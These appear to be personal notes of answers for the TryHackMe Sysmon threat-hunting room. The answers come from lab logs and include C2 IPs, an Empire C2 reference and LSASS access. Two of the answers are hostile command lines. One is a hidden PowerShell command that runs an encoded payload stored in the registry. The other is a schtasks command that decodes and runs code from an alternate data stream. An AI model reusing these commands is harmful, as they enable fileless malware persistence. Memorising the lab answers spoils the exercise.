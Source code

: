 #Windows #Subscribers 
https://tryhackme.com/room/sysmon


```

73,591

2021-01-06 01:35:50.464 


HKLM\System\CurrentControlSet\Enum\WpdBusEnumRoot\UMB\2&37c186b&0&STORAGE#VOLUME#_??_USBSTOR#DISK&VEN_SANDISK&PROD_U3_CRUZER_MICRO&REV_8.01#4054910EF19005B3&0#\FriendlyName


\Device\HarddiskVolume3 


rundll32.exe

C:\Users\IEUser\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\S97WTYG7\update.hta


C:\Users\IEUser\Downloads\update.html

C:\Windows\System32\mshta.exe

10.0.2.18

4443

172.30.1.253 

DESKTOP-O153T4R

empirec2

HKLM\SOFTWARE\Microsoft\Network\debug

"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKLM:Software\Microsoft\Network debug).debug);start -Win Hidden -A \"-enc $x\" powershell";exit; 

172.168.103.188

c:\users\q\AppData:blah.txt

"C:\WINDOWS\system32\schtasks.exe" /Create /F /SC DAILY /ST 09:00 /TN Updater /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String($(cmd /c ''more &lt; c:\users\q\AppData:blah.txt'''))))\""


lsass.exe

172.30.1.253

80

empire




```



https://motasem-notes.net/threat-hunting-with-sysmon-for-security-operations-center-tryhackme-sysmon/




![[Pasted image 20250314183506.png]]

176 points













































